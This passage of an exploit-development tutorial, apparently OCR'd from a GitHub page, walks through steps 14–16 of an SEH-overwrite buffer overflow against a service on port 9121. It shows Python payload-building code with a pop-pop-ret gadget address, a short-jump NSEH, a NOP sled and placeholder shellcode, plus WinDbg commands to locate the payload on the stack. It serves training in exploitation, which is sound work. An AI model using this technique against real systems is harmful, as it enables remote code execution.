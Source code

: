     ```
    ...
    try:
    server = sys.argv[1]
    port = 9121
    size = 1000

    inputBuffer = b"\x41" * 128
    inputBuffer+= pack("<L", (0x1015a2f0))  # (SEH) 0x1015a2f0 - pop eax; pop ebx; ret
    inputBuffer+= b"\x43" * (size - len(inputBuffer))
    ...
    ```

14. Run the code and will trigger exception. Run `!exchain` and will get something like below. The important one is the `1015a2f0` which is the value we inserted as SEH just now. Run `u 1015a2f0 L3` to confirm it contains PPR.

    ```
    018ffe1c: libpal!md5_starts+149fb (0099df5b)
    018fff54: libspp!pcre_exec+16460 (1015a2f0)
    Invalid exception stack at 41414141
    ```

15. Update the code to include a short jump `EB 06` so that it jump over the PPR (six instead of four because need to include the EB 06 itself too), and insert a dummy shellcode so that we can search where it is later.

    ```
    ...
    try:
    server = sys.argv[1]
    port = 9121
    size = 1000

    shellcode = b"\x43" * 400

    inputBuffer = b"\x41" * 124
    inputBuffer+= pack("<L", (0x06eb9090))  # (NSEH)
    inputBuffer+= pack("<L", (0x1015a2f0))  # (SEH) 0x1015a2f0 - pop eax; pop ebx; ret
    inputBuffer+= b"\x90" * (size - len(inputBuffer) - len(shellcode))
    inputBuffer+= shellcode
    ...
    ```

16. Restart the debugger. Set a breakpoint at the address from Step 12 `bp 0x1015a2f0`, then run the exploit code. Keep on running `t` until AFTER eb 06 (usually the NOP). Then run `!teb`, remember the StackBase and StackLimit (StackBase is 01af0000 and StackLimit is 01aee000 in this example). Then run `s -b 01aee000 01af0000 90 90 90 90 43 43 43 43 43 43 43 43` (replace the StackBase and StackLimit, taking note the first is Limit second is Base). Take note of the results below, and the address here is 01aefc70 (but the actual shellcode starts from 01aefc74!).

    ```
    0:010> s -b 01aee000 01af0000 90 90 90 90 43 43 43 43 43 43 43 43
    01aefc70  90 90 90 90 43 43 43 43-43 43 43 43 43 43 43 43  ....CCCCCCCCCCCC
    ```

